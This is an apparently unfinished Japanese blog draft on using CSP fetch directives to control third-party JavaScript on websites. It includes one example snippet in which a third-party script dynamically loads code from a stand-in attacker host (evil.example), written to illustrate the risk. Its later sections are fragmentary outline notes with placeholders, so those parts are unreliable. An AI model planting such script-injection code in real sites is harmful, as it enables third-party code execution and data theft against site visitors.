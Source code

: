 # CSP（Content Security Policy）Fetch ディレクティブ活用の現実解

こんにちは、プラットフォームエンジニア & 安全確保支援士の中山です。

Web サイトにはしばしば 3rd-party JavaScript … 例えば Google Analytics のような Web 解析ツール、いいねボタンのような SNS 連携機能、広告掲載のための広告タグなどを導入することがあります。

一方で 3rd-party JavaScript には Web サイトを閲覧するユーザーに悪影響を与えてしまうリスクも存在するため、その導入とあわせた対策が必要となります。

そこで、今回の記事では Content Security Policy（以下 CSP）の Fetch ディレクティブを活用したリスク対策の取り組みについてお伝えしたいと思います。

## CSP の Fetch ディレクティブとは

詳しくは [W3C 仕様](https://www.w3.org/TR/CSP3/) を確認頂くとして、概念を絵にしたものがこちらです。

（★ここも絵を、Fetch もかく）

Web ブラウザに対してサブリソースの読み込みやインライン JavaScript の実行の制限を指示することで

- XSS リスクの軽減
- 外部ドメインへの意図しないデータ転送の抑制
- ある事業者の 3rd-party JavaScript から読み込まれる別な事業者の 3rd-party JavaScript の実行抑制

などの効果が期待できます。

例えば script-src の場合

> The script-src directive restricts the locations from which scripts may be executed. This includes not only URLs loaded directly into script elements, but also things like inline script blocks and XSLT stylesheets [XSLT] which can trigger script execution. 

Web サイトが

```
Content-Security-Policy: script-src 'self'
```

のような応答ヘッダを送信すると同一オリジンから読み込まれた JavaScript の実行のみ許可されます。

ちなみに CSP の Fetch ディレクティブは META 要素にも定義可能ですが

> NOTE: The Content-Security-Policy-Report-Only header is not supported inside a meta element.

との注釈があり、一部の機能が利用できません。その [背景に関する議論](https://github.com/w3c/webappsec-csp/issues/277) では

> I really wish we'd stop with meta-element based policies.

のような意見も出ているため利用に際してはこうした意見も参考にすべきですね。

## 3rd-party JavaScript の課題と対策

Chrome の開発者ツールを使うことで Web サイトに導入されている 3rd-party JavaScript を確認することができます。

<img src='https://raw.githubusercontent.com/nakayama-kazuki/202x/main/CSP/pict01.png' />

もしその 3rd-party JavaScript を提供する事業者に悪意があったり、悪意はなくとも別な攻撃者によって CDN やリポジトリ上の JavaScript コードが改変されていた場合、Web サイト上のデータが盗まれたり [フィッシングサイトに誘導](https://blog.techscore.com/entry/2022/08/24/150000) されてしまう、などのリスクが発生します。

<img src='https://raw.githubusercontent.com/nakayama-kazuki/202x/main/CSP/sec01.png' />

こうしたリスクには Same Origin Policy を利用して 3rd-party JavaScript が実行されるドメインを分離する対策が有効です。

<img src='https://raw.githubusercontent.com/nakayama-kazuki/202x/main/CSP/sec02.png' />

ただし 3rd-party JavaScript がその目的を達成するために Web サイトの DOM にアクセスする必要がある場合（例えば広告のビューアビリティー計測など）、ドメインを分離する対策は採用できません。とはいえ、信頼できる安全な 3rd-party JavaScript ならば問題はないでしょう。

<img src='https://raw.githubusercontent.com/nakayama-kazuki/202x/main/CSP/sec03.png' />

ところが、ある事業者の 3rd-party JavaScript から別な事業者の 3rd-party JavaScript が読み込まれるケースも存在します。

<img src='https://raw.githubusercontent.com/nakayama-kazuki/202x/main/CSP/sec04.png' />

例えば Web サイトが以下のマークアップを含み

```
<script src='https://hoge.example/hoge.js'></script>
```

さらに hoge.js が以下のようなコードを含む場合に evil.js が読み込まれます。

```
let script = document.createElement('SCRIPT');
script.src = 'https://evil.example/evil.js';
let targetNode = document.getElementsByTagName('SCRIPT').item(0);
targetNode.parentNode.appendChild(script);
```

こうした 3rd-party JavaScript 読み込みが複数回実行されることもあり、そうなるともはや安全性の確認は困難です。行儀の悪い事業者の 3rd-party JavaScript がコンテンツ情報を勝手に収集している … なんてこともあるかもしれません。

<img src='https://raw.githubusercontent.com/nakayama-kazuki/202x/main/CSP/sec05.png' />

このような場合に CSP の Fetch ディレクティブを使うことで、ホワイトリストで許可していないサブリソースの読み込みを制限することができます。

<img src='https://raw.githubusercontent.com/nakayama-kazuki/202x/main/CSP/sec06.png' />

## CSP による対策と次の課題

Same Origin Policy と

一方でメディアサービスなどの Web サイトの場合は多くの 3rd-party JavaScript を導入しています。導入を把握している 3rd-party JavaScript の範囲ならば管理することは可能かもしれませんが、


例えば総務省の

その全ての安全性を確認することは現実的ではないかもしれません。


★例の知らない間に 90 個のタグとか（どこかの引用）

★それを CSP の Fetch ディレクティブで対策
★絵で示す
★ところが 3rd-party ツールの場合のホワイトリスト管理の難しさ

## 現実解の模索

★ティアを分けた対応（ブロック + サンプリングレポートと発見的統制 + 受容）
★イシューととりうる HOW のマトリクス


ゼロリスク = 違反時の停止
	インライン
		とめたいなら nonce
		受容するなら 'unsafe-inline'
	3rd-party JavaScript からの piggyback
		読み込むサブリソースを全てホワイトリスト登録。ただし 3p スクリプトが動作不全
		チェックしないなら strict-dynamic でいい
発見的統制 = 違反時のレポート
	インライン
		レポートしたいなら nonce★XSS のケースのレポートを見てみる
		受容するなら 'unsafe-inline'
	3rd-party JavaScript からの piggyback
		自ドメイン以外をレポートで発見的統制

★これ AI にも聞いてみる

## メディアでのティア 2 実験と今後の運用

★TBD
★定期的にレポートを出しサービスの技術管掌担当にチェックしてもらう

## その他考察

★Proxy とサンプリング
★TM での CSP 配信検討と
★nonce 面倒
★まとめとして（AI 先生に言われたような内容で）セキュリティー強化を



